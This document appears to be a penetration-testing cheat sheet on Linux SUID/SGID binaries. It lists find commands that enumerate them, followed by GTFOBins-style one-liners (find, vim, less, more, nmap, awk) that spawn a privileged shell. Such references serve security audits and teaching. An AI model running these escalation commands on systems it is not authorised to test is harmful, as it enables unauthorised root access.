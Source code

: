 
## SUID and SGID Analysis

### Finding SUID/SGID Binaries
```bash
# Find SUID binaries
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null

# Find SGID binaries
find / -perm -g=s -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null

# Find both SUID and SGID
find / -perm -u=s -o -perm -g=s -type f 2>/dev/null

# Common SUID binaries to check
ls -la /usr/bin/passwd
ls -la /usr/bin/sudo
ls -la /usr/bin/su
ls -la /usr/local/bin/doas
```

### GTFOBins Exploitation
```bash
# Check GTFOBins for binary exploitation
# https://gtfobins.github.io/

# Common exploitable SUID binaries:
# - /usr/bin/find
find . -exec /bin/sh -p \; -quit

# - /usr/bin/vim
vim -c ':!/bin/sh'

# - /usr/bin/less
less /etc/profile
!/bin/sh

# - /usr/bin/more
more /etc/profile
!/bin/sh

# - /usr/bin/nmap (older versions)
nmap --interactive
!sh

# - /usr/bin/awk
awk 'BEGIN {system("/bin/sh")}'
```

---